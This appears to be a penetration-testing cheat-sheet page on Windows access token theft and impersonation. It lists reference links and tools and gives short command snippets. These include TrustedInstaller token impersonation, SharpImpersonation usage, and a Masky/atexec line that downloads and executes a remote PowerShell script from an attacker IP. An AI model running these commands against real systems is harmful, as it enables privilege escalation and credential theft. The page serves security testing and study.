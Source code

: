 # Token Manipulation

- [https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b](https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b)
- [https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa](https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa)
- [https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962](https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962)
- [https://xret2pwn.github.io//Access-Token-Part0x01/](https://xret2pwn.github.io//Access-Token-Part0x01/)
- [https://xret2pwn.github.io//Building-Token-Vault-Part0x02/](https://xret2pwn.github.io//Building-Token-Vault-Part0x02/)
- [https://rastamouse.me/token-impersonation-in-csharp/](https://rastamouse.me/token-impersonation-in-csharp/)
- [https://xakep.ru/2022/12/06/win-api-secrets/](https://xakep.ru/2022/12/06/win-api-secrets/)
- [https://ardent101.github.io/posts/tokens_theory/](https://ardent101.github.io/posts/tokens_theory/)
- [https://habr.com/ru/articles/776298/](https://habr.com/ru/articles/776298/)
- [[PDF] Technical Analysis of Access Token Theft and Manipulation (McAfee)](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)

![Access Token Theft and Manipulation (McAfee)](/.gitbook/assets/011.png)




## Trusted Installer Token

- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1)
- [https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1](https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1)

```
PS > Install-Module -Name NtObjectManager -Confirm:$false
PS > Restart-Service TrustedInstaller
PS > $procId = (Get-Process TrustedInstaller).Id
PS > $token = Get-NtTokenFromProcess -ProcessId $procId
PS > $current = Get-NtThread -Current -PseudoHandle
PS > $ctx = $current.Impersonate($token)
PS > $impToken = Get-NtToken -Impersonation
PS > $impToken.Groups
```




## Tools

- [https://github.com/dievus/msImpersonate](https://github.com/dievus/msImpersonate)
- [https://github.com/magnusstubman/tokenduplicator](https://github.com/magnusstubman/tokenduplicator)



### Tokenvator

- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/)
- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/)
- [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)



### SharpImpersonation

- [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)

```
PS > .\SharpImpersonation.exe list [elevated]
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash binary:"powershell.exe whoami"
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash technique:ImpersonateLoggedOnuser
```



### Koh

- [https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6)
- [https://github.com/GhostPack/Koh](https://github.com/GhostPack/Koh)



### Masky

- [https://z4ksec.github.io/posts/masky-release-v0.0.3/](https://z4ksec.github.io/posts/masky-release-v0.0.3/)
- [https://github.com/Z4kSec/Masky](https://github.com/Z4kSec/Masky)
- [https://threadreaderapp.com/thread/1563247630129725442.html](https://threadreaderapp.com/thread/1563247630129725442.html)

Combining with AD CS abuse:

{% content-ref url="/pentest/infrastructure/ad/ad-cs-abuse/README.md" %}
[README.md](README.md)
{% endcontent-ref %}

```
$ pipx install -f 'git+https://github.com/Z4kSec/Masky.git'
$ masky -d tinycorp -u snovvcrash -p 'Passw0rd!' -ca 'CA01.megacorp.local\CorpCA' -dc-ip 192.168.1.11 10.10.13.37
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iex(new-object net.webclient).downloadstring(""""http://10.10.13.37/Invoke-Masky.ps1"""");Invoke-Masky /ca:CA01.megacorp.local\CorpCA'
```



### Impersonate

- [https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/)
- [https://github.com/sensepost/impersonate](https://github.com/sensepost/impersonate)
- [https://github.com/zblurx/impersonate-rs](https://github.com/zblurx/impersonate-rs)
